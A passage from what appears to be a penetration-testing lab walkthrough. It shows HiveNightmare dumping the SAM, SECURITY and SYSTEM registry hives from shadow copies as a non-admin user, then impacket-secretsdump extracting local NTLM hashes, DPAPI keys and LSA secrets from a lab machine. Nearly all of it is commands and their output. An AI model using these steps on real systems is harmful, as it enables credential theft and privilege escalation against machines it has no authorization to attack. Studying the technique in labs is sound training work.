 2) Performing Attack and Parsing Password Hashes

https://github.com/GossiTheDog/HiveNightmare

```
PS C:\Users\htb-student\Desktop> .\HiveNightmare.exe

HiveNightmare v0.6 - dump registry hives as non-admin users

Specify maximum number of shadows to inspect with parameter if wanted, default is 15.

Running...

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

Success: SAM hive from 2021-08-07 written out to current working directory as SAM-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY

Success: SECURITY hive from 2021-08-07 written out to current working directory as SECURITY-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM

Success: SYSTEM hive from 2021-08-07 written out to current working directory as SYSTEM-2021-08-07


Assuming no errors above, you should be able to find hive dump files in current working directory.
```

3) Dumping Hashes

```
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0xebb2121de07ed08fc7dc58aa773b23d6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3c7b7e66890fb2181a74bb56ab12195f248e9461
dpapi_userkey:0xc3e6491e75d7cffe8efd40df94d83cba51832a56
[*] NL$KM 
 0000   45 C5 B2 32 29 8B 05 B8  E7 E7 E0 4B 2C 14 83 02   E..2)......K,...
 0010   CE 2F E7 D9 B8 E0 F0 F8  20 C8 E4 70 DD D1 7F 4F   ./...... ..p...O
 0020   42 2C E6 9E AF 57 74 01  09 88 B3 78 17 3F 88 54   B,...Wt....x.?.T
 0030   52 8F 8D 9C 06 36 C0 24  43 B9 D8 0F 35 88 B9 60   R....6.$C...5..`
NL$KM:45c5b232298b05b8e7e7e04b2c148302ce2fe7d9b8e0f0f820c8e470ddd17f4f422ce69eaf5774010988b378173f8854528f8d9c0636c02443b9d80f3588b960
```
